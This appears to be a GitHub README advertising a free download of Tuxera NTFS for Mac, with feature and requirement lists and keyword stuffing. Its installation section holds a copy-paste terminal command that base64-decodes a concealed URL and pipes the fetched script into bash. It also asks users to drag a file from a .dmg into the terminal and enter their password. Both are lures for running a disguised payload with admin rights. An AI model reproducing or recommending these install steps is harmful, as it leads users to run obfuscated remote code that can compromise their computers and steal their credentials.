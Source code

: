 # Tuxera NTFS for Mac Download

![Tuxera NTFS Screenshot 1](https://fr.keysoff.com/media/wysiwyg/Tuxera_NTFS_for_Mac.jpg)

---

## 📥 Download Tuxera NTFS for macOS

[![⬇️ Download Tuxera NTFS](https://img.shields.io/badge/Download-Tuxera%20NTFS%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Tuxera)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Tuxera NTFS for Mac?

Tuxera NTFS for Mac is a macOS system extension that provides full read and write access to NTFS-formatted drives. Unlike macOS’s built-in NTFS support, which only allows reading, Tuxera NTFS enables seamless file transfer, editing, and disk management on Windows-formatted volumes.

Ideal for users who frequently move files between Windows and Mac systems, Tuxera ensures high-speed data exchange without file corruption or permission errors. It includes smart caching, secure volume handling, and compatibility with Apple Silicon (M1/M2/M3).

Whether you're working with external hard drives, USB flash drives, or Boot Camp partitions, Tuxera NTFS ensures effortless cross-platform compatibility on macOS.

---

![Tuxera NTFS Screenshot 2](https://mac-cdn.softpedia.com/screenshots/Tuxera-NTFS_3.jpg)

---

## ⚙️ Key Features

- 📂 Full NTFS Write Support – Create, edit, move, and delete files on NTFS volumes  
- 🚀 Fast File Transfers – High-performance caching layer for speed and stability  
- 🛠️ Disk Manager Tool – Format and verify drives from within macOS  
- 🔐 Secure Access – File-level permission and ownership control  
- 🔄 Cross-Platform Friendly – Work seamlessly between macOS and Windows  
- 💻 Apple Silicon Support – Works natively on M1, M2, M3 chips  
- 📦 Lightweight Utility – Runs quietly in the background  
- 🧠 Simple Setup – Minimal configuration, auto-detects NTFS drives  

---

## ✅ Suitable For

- Users with NTFS-formatted external drives  
- Windows-to-Mac switchers  
- Developers and system administrators  
- Dual-boot setups with Boot Camp  
- Students and professionals sharing cross-platform drives  

---

## 📦 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

tuxera ntfs mac, tuxera ntfs, tuxera, mac tuxera ntfs, ntfs tuxera for mac, tuxera disk manager, tuxera for mac, microsoft ntfs by tuxera, download tuxera, download tuxera ntfs, download tuxera ntfs for mac, free tuxera ntfs for mac, microsoft ntfs for mac by tuxera, tuxera ntfs for mac download
